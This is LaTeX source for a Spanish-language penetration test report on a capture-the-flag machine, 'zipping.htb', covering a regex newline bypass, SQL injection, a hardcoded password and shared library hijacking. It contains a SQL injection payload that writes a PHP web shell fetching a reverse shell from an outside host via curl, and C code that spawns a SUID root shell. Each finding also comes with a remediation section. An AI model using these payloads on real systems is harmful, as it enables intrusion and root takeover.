	\makebox[\textwidth]{\fbox{
\includegraphics[width=0.80\textwidth]{images/burpsuiteProxy01.png}}}
	\caption{Interceptamos la petición con Burpsuite}
    \end{figure}

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\makebox[\textwidth]{\fbox{
\includegraphics[width=0.80\textwidth]{images/burpsuiteRepeater01.png}}}
	\caption{Enviamos la petición al repetear}
    \end{figure}

    Para eludir esta verificación, debemos enviar el valor con saltos de línea aplicando el método de codificación URL (urlencoded) \%0A.

    \textbf{PoC}

    \begin{lstlisting}[language=sql, caption=]
    curl -s "http://zipping.htb/shop/index.php?page=product&id=%0a'%3b1"
    Product does not exist!
    \end{lstlisting}

    \clearpage
    \textbf{Remediation}

    La vulnerabilidad conocida como \verb|"New line bypass"| en la función \texttt{preg\_match} se refiere a una vulnerabilidad de seguridad que puede ocurrir cuando se utiliza incorrectamente la función \texttt{preg\_match} en PHP para realizar coincidencias de expresiones regulares en cadenas de texto que contienen datos no confiables.

    La vulnerabilidad se produce cuando un atacante puede manipular los datos de entrada de tal manera que pueden pasar por alto las restricciones de seguridad establecidas por el desarrollador del sistema. Esto puede ocurrir cuando se permite que un usuario externo controle parte de la cadena de texto que se pasa como entrada a \texttt{preg\_match}.

    En particular, la vulnerabilidad \verb|"New line bypass"| se refiere a la capacidad del atacante para insertar caracteres de nueva línea \verb|\n| u otros caracteres especiales en la cadena de texto de entrada de manera que puedan evadir las expresiones regulares destinadas a filtrar o validar los datos.

    Por ejemplo, supongamos que un desarrollador utiliza \texttt{preg\_match} para validar direcciones de correo electrónico en un formulario web y espera que la dirección de correo electrónico proporcionada esté en una sola línea. Si un atacante puede manipular la entrada y agregar caracteres de nueva línea \verb|\n|, podría dividir la entrada en varias líneas, lo que podría permitirle pasar por alto la validación y enviar datos maliciosos o falsificados al sistema.

    Para mitigar esta vulnerabilidad, es importante realizar una validación adecuada de los datos de entrada y asegurarse de que cualquier función que utilice expresiones regulares esté configurada correctamente para evitar la manipulación maliciosa de la entrada. Esto puede incluir la eliminación o el escape de caracteres especiales que podrían ser utilizados para realizar ataques de "New line bypass". Además, se deben implementar filtros y validaciones adicionales para garantizar la seguridad de los datos procesados por el sistema.

    El modificador de multilinea (\texttt{m}) en expresiones regulares permite que los caracteres \texttt{\^} y \texttt{\$} coincidan con el inicio y el final de cada línea dentro de una cadena de texto, en lugar de solo el inicio y el final del texto completo.

    Si estás utilizando \texttt{preg\_match} para validar una cadena de texto que espera estar en una sola línea y deseas evitar que los caracteres de nueva línea \%0A introducidos en la URL pasen por alto esta validación, podrías considerar utilizar el modificador \texttt{m} en tu expresión regular.

    \vspace{0.3cm}

    \begin{lstlisting}[language=php, caption={Ejemplo de uso del modificador de multilinea}]
        if (preg\_match('\/\^pattern\$\/m', $cadena)) {
            // Validacion exitosa
        } else {
            // Validacion fallida
        }
    \end{lstlisting}
    \clearpage

    \textbf{Archivo product.php}
    \begin{lstlisting}[language=php, caption={Modificación de la expresion regular utilizando el modificador multilinea}]
    // Filtering user input for letters or special characters
    if(preg\_match("/^.*[A-Za-z!#$\%\^&*()\-_=+{}\[\]\\\|;:'\",.<>\/?]|[^0-9]$/m", $id, $match)) {
        header('Location: index.php');
    } else {
        // Prepare statement and execute, but does not prevent SQL injection
        $stmt = $pdo->prepare("SELECT * FROM products WHERE id = '$id'");
        $stmt->execute();
        // Fetch the product from the database and return the result as an Array
        $product = $stmt->fetch(PDO::FETCH_ASSOC);
        // Check if the product exists (array is not empty)
        if (!$product) {
            // Simple error to display if the id for the product doesn't exists (array is empty)
            exit('Product does not exist!');
        }
    }
    \end{lstlisting}

    \clearpage

    \subsubsection{\textbf{Vulnerability 003 - SQL Injection}}
    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|c|X|}
            \hline
            \cellcolor{lightgray}\textbf{Description:} & 
            {
                La inyección SQL es una vulnerabilidad de seguridad que afecta a las aplicaciones web que interactúan con bases de datos mediante consultas SQL. La vulnerabilidad ocurre cuando un atacante puede manipular los datos de entrada de una aplicación web para ejecutar comandos SQL no deseados en la base de datos subyacente.
                \newline\newline
                La inyección SQL ocurre típicamente cuando una aplicación web no valida o filtra correctamente los datos proporcionados por el usuario antes de construir y ejecutar consultas SQL dinámicas. Un atacante puede aprovechar esto para insertar instrucciones SQL maliciosas en los campos de entrada de la aplicación, como formularios web o parámetros de URL.
                \newline\newline
                Los ataques de inyección SQL pueden tener consecuencias graves, incluida la pérdida de datos confidenciales, la manipulación de datos, la divulgación de información privilegiada e incluso la toma de control total del sistema de base de datos. Los datos sensibles, como nombres de usuario, contraseñas, información financiera o de tarjetas de crédito, pueden ser comprometidos si una aplicación es vulnerable a la inyección SQL.
                \newline\newline
                En este caso, la inyección SQL se da en la consulta que realiza la solicitud de productos por \texttt{id}.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Severity:} &
            {
                Critical
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Vulnerability ID:} &
            {-} \\
            \hline
            \cellcolor{lightgray}\textbf{File:} &
            {
                \texttt{/var/www/html/shop/product.php}
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Risk:} &
            {
                Likelihood - Dado que la vulnerabilidad es conocida y puede ser fácilmente explotable por un atacante con conocimientos técnicos, la probabilidad de explotación se consideraría critica.
                \newline
                Impact - El impacto de esta vulnerabilidad es critico, dado que permite manipular la consultas sql y tener acceso a los datos de la base de datos o lograr escrbir en archivos del sistema como es en este caso.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Tools Used:} &
            {
                Burpsuite.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{References:} &        
            {
                \href{https://portswigger.net/web-security/sql-injection}{https://portswigger.net/web-security/sql-injection}

            } \\
            \hline
        \end{tabularx}
    \end{table}
    
    \clearpage

    \textbf{Evidence}

    Lo que haremos es ejecutar una consulta, la cual escriba un payload especifico en un archivo dentro de una ruta del sistema en la cual tengamos permisos de escritura. En este caso, la ruta en la cual guardaremos nuestro payload es \verb|/var/lib/mysql|.

    El payload que enviaremos es el siguiente:

    \begin{lstlisting}[language=sql, caption=]
    ';select '<?php system("curl http://10.10.14.38/revshell.sh|bash") ?>' into outfile '/var/lib/mysql/a.php'#1
    \end{lstlisting}

    Pero debemos codificarlo usando el método de codificación URL (urlencoded).

    \begin{lstlisting}[language=sql, caption=]
    %0A'%3bselect+'<%3fphp+system("curl+http%3a//10.10.14.38/revshell.sh|bash")+%3f>'+into+outfile+'/var/lib/mysql/a.php'%231
    \end{lstlisting}

    \vspace{0.3cm}

    Luego, creamos un archivo \texttt{.sh} que contenga una reverse shell.

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\makebox[\textwidth]{\fbox{
\includegraphics[width=0.80\textwidth]{images/reverseshell.png}}}
	\caption{Reverse shell}
    \end{figure}

    Creamos un servidor HTTP con Python para compartir nuestra reverse shell.

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\makebox[\textwidth]{\fbox{
\includegraphics[width=0.80\textwidth]{images/httpserver.png}}}
	\caption{Servidor HTTP utilizando Python}
    \end{figure}

    \clearpage

    Iniciamos una escucha activa utilizando la herramienta \texttt{nc} (netcat) en el puerto 4444.

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\makebox[\textwidth]{\fbox{
\includegraphics[width=0.50\textwidth]{images/netcat.png}}}
	\caption{Escuchamos conexiones entrantes usando netcat}
    \end{figure}

    Ejecutamos la petición.

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\makebox[\textwidth]{\fbox{
\includegraphics[width=0.94\paperwidth]{images/burpsuiteRepeater02.png}}}
	\caption{Ejecución de la petición}
    \end{figure}

    \begin{lstlisting}[language=, caption=]
    GET /shop/index.php?page=product&id=\%0A'\%3bselect+'\%3c\%3fphp+system("curl+http\%3a//10.10.14.38/revshell.sh|bash")+ \%3f>'\%3e+into+outfile+'/var/lib/mysql/a.php'\%231 HTTP/1.1
    Host: zipping.htb
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    DNT: 1
    Connection: close
    Cookie: PHPSESSID=2id3kjr4t69l0fg99j9ki12h29
    Upgrade-Insecure-Requests: 1
    \end{lstlisting}

    Y de esta forma logramos ganar acceso al sistema.
    
    \clearpage

    \begin{figure}[h]
	\centering
	\setlength{\fboxrule}{0.5pt}
	\makebox[\textwidth]{\fbox{
\includegraphics[width=\textwidth]{images/user.png}}}
	\caption{Ganamos acceso al sistema}
    \end{figure}

    \textbf{Remediation}

    \begin{itemize}
    \item \textbf{Utilizar consultas preparadas (Prepared Statements) o consultas parametrizadas:}
    La forma más efectiva de prevenir la SQL Injection en PHP es utilizar consultas preparadas o parametrizadas con bibliotecas de acceso a la base de datos como PDO (PHP Data Objects) o MySQLi (MySQL Improved). Estas consultas separan los datos de la consulta SQL, evitando así la inserción de código malicioso.
    \item \textbf{Validar y sanitizar entradas de usuario:}
    Asegurarse de que todas las entradas de usuario, como datos de formularios, parámetros de URL o cookies, sean validadas y sanitizadas adecuadamente antes de ser utilizadas en consultas SQL. Esto implica eliminar o escapar caracteres especiales que podrían ser interpretados como parte de una consulta SQL.
    \end{itemize}
    
    \vspace{0.3cm}

    \begin{lstlisting}[language=php, caption=]
    $stmt = $pdo->prepare("SELECT * FROM products WHERE id = :id");
    $stmt->bindParam(':id', $id, PDO::PARAM_INT);
    $stmt->execute();

    // Fetch the product from the database and return the result as an Array
    $product = $stmt->fetch(PDO::FETCH_ASSOC);

    // Check if the product exists (array is not empty)
    if (!$product) {
        // Simple error to display if the id for the product doesn't exists (array is empty)
        exit('Product does not exist!');
    }
    \end{lstlisting}

    En este código, he reemplazado el marcador de posición \texttt{\$id} en la consulta con :id, que es un marcador de posición utilizado en consultas preparadas de PDO. Luego, he utilizado el método bindParam para vincular el valor de \texttt{\$id} al marcador de posición :id. Esto asegura que los datos proporcionados por el usuario se traten como un valor y no como parte de la consulta SQL, previniendo así la SQL Injection. Además, he especificado el tipo de parámetro como PDO::PARAM\_INT para asegurarme de que el valor de \texttt{\$id} se interprete como un entero.

    Con estas modificaciones, el código está protegido contra SQL Injection y se ejecutará de manera segura incluso si \texttt{\$id} contiene datos proporcionados por el usuario.

    \clearpage

    \subsubsection{\textbf{Vulnerability 004 - Hardcoded Password}}
    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|c|X|}
            \hline
            \cellcolor{lightgray}\textbf{Description:} & 
            {
                Esta vulnerabilidad ocurre cuando las credenciales de autenticación, como contraseñas o claves de acceso, se almacenan directamente en el código fuente de una aplicación en lugar de ser gestionadas de forma segura, como almacenarlas en una base de datos segura o utilizar métodos de autenticación más robustos.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Severity:} &
            {
                High
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Vulnerability ID:} &
            {-} \\
            \hline
            \cellcolor{lightgray}\textbf{File:} &
            {
                \texttt{/usr/bin/stock}
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Risk:} &
            {
                Likelihood - La lectura de la contraseña dentro del código fuente no requiere mayor esfuerzo, por lo que podemos considerar la vulnerabilidad como critica.
                \newline
                Impact - El impacto de esta vulnerabilidad es critico, ya que se require un cierto nivel de conocimiento técnico para llevar a cabo la explotación. Permite manipular el flujo del programa y ganar acceso a una sesión como el usuario \texttt{root}.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Tools Used:} &
            {
                strings.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{References:} &        
            {} \\
            \hline
        \end{tabularx}
    \end{table}
    
    \textbf{Evidence}

    Si analizamos el binario usando el comando \texttt{strings}, logramos ver que la contraseña se encuentra hardcodeada directamente en el código \texttt{St0ckM4nager}.

    \begin{definicion}
    El comando \texttt{strings} extrae y muestra las secuencias de caracteres legibles dentro de archivos binarios, revelando información como cadenas de texto, nombres de funciones y referencias a bibliotecas que pueden ser útiles para entender la funcionalidad de un archivo binario.
    \end{definicion}

    \clearpage

    \begin{figure}[h]
        \centering
        
\includegraphics[width=0.70\textwidth]{images/stockmanager.png}
    \end{figure}

    \textbf{Remediation}
        
    \begin{itemize}
        \item \textbf{Eliminar la contraseña hardcodeada:} La recomendación más importante sería eliminar completamente la contraseña hardcodeada del binario. Esto implica modificar el código fuente para que la contraseña se almacene de manera segura y no esté expuesta en el binario.
        \item \textbf{Utilizar variables de entorno:}
        Una práctica recomendada es utilizar variables de entorno para almacenar la contraseña en lugar de hardcodearla en el código. Esto permite una gestión más segura de las credenciales y evita la exposición directa en el binario.
        \item \textbf{Revisar y actualizar las prácticas de desarrollo seguro:}
        Es importante revistar y actualizar las prácticas de desarrollo seguro para evitar futuras instancias de contraseñas hardcodeadas. Esto puede incluir la realización de revisiones de código más exhaustivas, la implementación de controles automatizados durante el proceso de desarrollo, y la capacitación del personal en buenas prácticas de seguridad.
    \end{itemize}

    \clearpage

    \subsubsection{\textbf{Vulnerability 005 - Linux Shared Library Hijacking}}
    \begin{table}[htbp]
        \begin{tabularx}{\textwidth}{|c|X|}
            \hline
            \cellcolor{lightgray}\textbf{Description:} & 
            {
                La “Linux Shared Library Hijacking” (también conocida como “DLL hijacking” en sistemas Windows) es una vulnerabilidad de seguridad que ocurre cuando un programa ejecutable carga una biblioteca dinámica (comúnmente un archivo .so en sistemas Linux) usando un nombre relativo o sin especificar una ruta completa. Si la biblioteca no se encuentra en la ubicación esperada, el sistema operativo buscará en varios directorios del sistema, y un atacante podría aprovechar esto colocando una versión maliciosa de la biblioteca en uno de esos directorios, lo que permitiría ejecutar código arbitrario.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Severity:} &
            {
                Moderate
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Vulnerability ID:} &
            {-} \\
            \hline
            \cellcolor{lightgray}\textbf{File:} &
            {
                \texttt{/usr/bin/stock}
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Risk:} &
            {
                Likelihood - La explotación de esta vulnerabilidad podemos considerarla como alta, ya que ser requiere de un cierto nivel técnico, pero la información para llevar a cabo la misma es accesible.
                \newline
                Impact - El impacto de esta vulnerabilidad es critico, ya permite ganar acceso a una sesión como el usuario \texttt{root}.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{Tools Used:} &
            {
                C Language, strace, gcc.
            } \\
            \hline
            \cellcolor{lightgray}\textbf{References:} &        
            {
                \href{https://xavibel.com/2022/09/06/linux-shared-library-hijacking/}{https://xavibel.com/2022/09/06/linux-shared-library-hijacking/}

            } \\
            \hline
        \end{tabularx}
    \end{table}
    
    \textbf{Evidence}

    En primer lugar, examinamos el binario utilizando la herramienta \texttt{strace}.

    \begin{definicion}
        El comando \texttt{strace} es una herramienta de línea de comandos en sistemas basados en Unix y Linux que se utiliza para realizar un seguimiento de las llamadas al sistema y las señales que realiza un programa durante su ejecución. Ayuda a diagnosticar problemas de rendimiento, depurar programas y entender su comportamiento interactuando con el sistema operativo a un nivel más bajo.
    \end{definicion}

    \clearpage

    \begin{figure}[h]
        \centering
        \setlength{\fboxrule}{0.5pt}
        \makebox[\textwidth]{\fbox{
\includegraphics[width=\textwidth]{images/strace.png}}}
        \caption{Uso del comando strace para analizar el binario}
    \end{figure}

    Encontramos que el binario estaba intentando cargar la librería \texttt{/home/rektsu/.config/libcounter.so} la cual no existe. Por lo tanto, podemos crear la librería compartida para escalar nuestros privilegios.

    Esta vulnerabilidad es conocida como "Linux Shared Library Hijacking" (también conocida como “DLL hijacking” en sistemas Windows) es una vulnerabilidad de seguridad que ocurre cuando un programa ejecutable carga una biblioteca dinámica (comúnmente un archivo .so en sistemas Linux) usando un nombre relativo o sin especificar una ruta completa. Si la biblioteca no se encuentra en la ubicación esperada, el sistema operativo buscará en varios directorios del sistema, y un atacante podría aprovechar esto colocando una versión maliciosa de la biblioteca en uno de esos directorios, lo que permitiría ejecutar código arbitrario.

    \clearpage

    Para explotar esta vulnerabilidad, utilizamos el siguiente código en C.

    \begin{lstlisting}[language=c, caption={Ejemplo de código C con función de escalada de privilegios}]
    #include <stdio.h>
    #include <stdlib.h>

    static void privesc() \_\_attribute\_\_((constructor));

    void privesc() {
    system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
    }
    \end{lstlisting}

    El código anterior asigna permisos SUID al binario /bin/bash. La función privesc está marcada con el atributo constructor, lo que significa que se ejecutará automáticamente al cargar el programa en el que se encuentra, es decir, antes de llamar a la función main(). El código en la función privesc copia el ejecutable /bin/bash a /tmp/bash, establece el bit de setuid en el nuevo archivo y luego ejecuta /tmp/bash -p, logrando así ejecutar una shell como el usuario \texttt{root}.

    Para crear la libreria compartida, ejecutamos el siguiente código:

    \begin{lstlisting}[language=c, caption={Ejemplo de compilación de una biblioteca compartida en C}]
    gcc -shared -o /home/rektsu/.config/libcounter.so -fPIC /tmp/libcounter.c
    \end{lstlisting}

    Parámetros utilizados:

    \begin{itemize}
        \item \texttt{-shared:} Indica al compilador que genere una biblioteca compartida en lugar de un ejecutable.
        \item \texttt{-o:} Especifica el nombre del archivo de salida (en este caso, /home/rektsu/.config/libcounter.so).
        \item \texttt{/home/rektsu/.config/libcounter.so:} Ruta y nombre del archivo de salida de la biblioteca compartida.
        \item \texttt{-fPIC:} Indica que el código generado debe ser independiente de la posición (Position Independent Code), necesario para bibliotecas compartidas.
        \item \texttt{/tmp/libcounter.c:} Ruta y nombre del archivo fuente en C que se compilará.
    \end{itemize}

    Ejecutamos el binario /usr/bin/stock, logrando escalar nuestro privilegios a root.
    
    \begin{figure}[h]
        \centering
        \setlength{\fboxrule}{0.5pt}
        \makebox[\textwidth]{\fbox{
\includegraphics[width=\textwidth]{images/root.png}}}
        \caption{Ganamos acceso como el usuario root}
    \end{figure}

    \clearpage

    \textbf{Remediation}
    
    \begin{itemize}
        \item \textbf{Actualizar y asegurar las bibliotecas compartidas:}
        Actualizar todas las bibliotecas compartidas utilizadas por el binario vulnerable a versiones seguras y parcheadas. Además, deben asegurarse de que estas bibliotecas estén configuradas correctamente y no sean accesibles para escritura por usuarios no autorizados.
        \item \textbf{Implementar rutas absolutas:}
        Utilizar rutas absolutas en lugar de rutas relativas al cargar bibliotecas compartidas en el binario. Esto ayuda a evitar la posibilidad de que un atacante reemplace la biblioteca compartida con una maliciosa al manipular la variable de entorno \texttt{LD\_LIBRARY\_PATH}.
        \item \textbf{Aplicar listas blancas de bibliotecas compartidas:}
        Definir listas blancas de bibliotecas compartidas permitidas para ser cargadas por el binario. Esto ayuda a limitar el riesgo de cargar bibliotecas compartidas no autorizadas que podrían ser utilizadas por un atacante para realizar un Linux Shared Library Hijacking.
        \item \textbf{Reducir los privilegios del binario:}
        Si es posible, reducir los privilegios del binario vulnerable. Esto puede incluir ejecutar el binario con un usuario con menos privilegios o utilizando contenedores como Docker para aislar y limitar los recursos disponibles para el binario.
        \item \textbf{Monitorear y registrar actividades sospechosas:}
        Implementar mecanismos de monitoreo y registro para detectar actividades sospechosas relacionadas con el uso de bibliotecas compartidas por parte del binario. Esto puede ayudar a identificar intentos de explotación y posibles escaladas de privilegios.
    \end{itemize}

    \clearpage

    \null
    \vfill
    \hfill
    \begin{figure}[h]
        \centering
        
\includegraphics[width=0.30\textwidth]{\logoPortada}
    \end{figure}
    \hfill
    \null
    \vfill
    \null

    \null
    \hfill
    \textbf{\Huge Last Page}
    \hfill
    \null
    \vfill
    \vfill
    \null
    
\end{document} % Fin del documento